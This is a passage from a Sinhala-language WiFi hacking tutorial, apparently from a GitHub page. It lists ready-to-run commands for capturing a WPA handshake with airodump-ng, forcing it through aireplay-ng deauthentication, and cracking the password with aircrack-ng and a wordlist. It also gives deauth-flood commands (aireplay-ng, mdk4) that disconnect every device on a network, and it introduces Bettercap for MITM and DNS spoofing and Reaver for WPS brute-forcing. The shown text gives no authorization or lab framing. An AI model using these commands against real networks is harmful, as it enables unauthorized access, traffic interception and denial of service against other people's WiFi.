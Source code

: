 sudo airodump-ng wlan0mon


 **BSSID** සහ **Channel** සටහන් කර ගන්න.

sudo airodump-ng -c [channel] --bssid [BSSID] -w capture wlan0mon


- Handshake අල්ලා ගැනීමට Deauthentication පහරදීමක් කරන්න:


sudo aireplay-ng --deauth 10 -a [BSSID] wlan0mon


- Wordlist එකක් භාවිත කර මුරපදය බිඳ හෙළන්න:


sudo aircrack-ng -w [wordlist] -b [BSSID] capture.cap



### **3. Deauthentication පහරදීම**

WiFi ජාලයෙන් පරිශීලකයින් විසන්ධි කිරීම සඳහා මෙය භාවිත වේ.

#### **Aireplay-ng භාවිතයෙන්:**


sudo aireplay-ng --deauth 0 -a [BSSID] wlan0mon


-සියලුම සම්බන්ධිත උපාංග විසන්ධි කරයි.

#### **mdk4 භාවිතයෙන්:**


sudo apt install mdk4 -y

sudo mdk4 wlan0mon d


- WiFi සම්බන්ධතා කඩ කරන පණිවුඩ අධික වශයෙන් යවයි.



### **4. අමතර මෙවලම් සහ උපදෙස්**

#### **Bettercap**

Bettercap යනු උසස් ජාල පහරදීමේ මෙවලමකි. මෙය Man-in-the-Middle (MITM) පහරදීම, HTTPS spoofing, packet sniffing සහ DNS spoofing වැනි ක්‍රියාවලියන්ට භාවිතා කළ හැක.

**ස්ථාපනය:**


sudo apt update && sudo apt install bettercap -y


**භාවිතය:**


sudo bettercap -iface wlan0


#### **Reaver**

Reaver යනු WPS PIN brute-force පහරදීමක් කිරීම සඳහා යෙදෙන මෙවලමකි. මෙය වයිෆයි ජාලයක WPS PIN සොයා WPA/WPA2 මුරපදය බිඳ හෙලිය හැක.
